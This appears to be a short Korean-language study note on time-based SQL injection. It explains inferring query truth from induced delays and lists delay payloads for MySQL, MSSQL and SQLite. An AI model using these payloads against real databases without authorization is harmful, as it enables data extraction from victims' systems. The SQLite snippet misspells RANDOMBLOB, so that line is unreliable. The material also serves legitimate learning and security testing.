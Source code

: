 ## Time based SQL Injection
### Time based SQL Injection
---
시간 지연을 이용해 쿼리의 참/ 거짓 여부를 판단하는 공격 기법이다. 시간을 지연시키는 방법은 DBMS에서 제공하는 함수를 사용하거나, 헤비 쿼리를 사용한다. 
#### MySQL 공격
```sql
SELECT SLEEP(1);
SELECT BENCHMARK(40000000, SHA1(1));
```
#### MSSQL 공격
```sql
SELECT '' if ((select 'abc') = 'abc') waitfor delay '0:0:1';
```
#### SQLite 공격
```sql
.timer ON
SELECT LIKE('ABCDEFG', UPPER(HEX(RADOMBLOB(1500000000/2))));
